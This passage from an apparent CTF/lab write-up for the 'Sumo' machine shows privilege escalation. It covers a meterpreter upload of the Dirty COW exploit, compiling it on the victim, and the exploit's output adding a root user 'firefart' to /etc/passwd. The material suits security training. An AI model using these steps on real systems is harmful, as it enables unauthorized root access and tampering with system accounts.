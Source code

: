 I am inside the shell so lets upload the `dirtycow.c` exploit from attackers machine to victim machine →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%204.png)

lets upload it now →

```bash
meterpreter > upload dirtycow.c /tmp
[*] Uploading  : /home/kali/Downloads/Proving_Ground/Sumo/dirtycow.c -> /tmp/dirtycow.c
[*] Completed  : /home/kali/Downloads/Proving_Ground/Sumo/dirtycow.c -> /tmp/dirtycow.c
meterpreter > shell
Process 1419 created.
Channel 6 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ ls -al
ls -al
total 32
drwxrwxrwt  5 root     root     4096 Jun 26 00:54 .
drwxr-xr-x 23 root     root     4096 May 11  2020 ..
-rwxrwxrwx  1 www-data www-data  207 Jun 26 00:48 UeBZw
drwxrwxrwt  2 root     root     4096 Jun 26  2023 VMwareDnD
-rw-r--r--  1 www-data www-data 5006 Jun 26 00:54 dirtycow.c
drwx------  2 root     root     4096 Jun 26  2023 vmware-root
drwx------  2 root     root     4096 Jun 26  2023 vmware-root_1309-4282367544
www-data@ubuntu:/tmp$ gcc -pthread dirtycow.c -o shell -lcrypt
gcc -pthread dirtycow.c -o shell -lcrypt
www-data@ubuntu:/tmp$
```
{: .nolineno}

Now lets execute this `shell` compiled code →

```bash
www-data@ubuntu:/tmp$ ./shell password   
./shell password
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: 7f48b3c8d000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'password'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$
```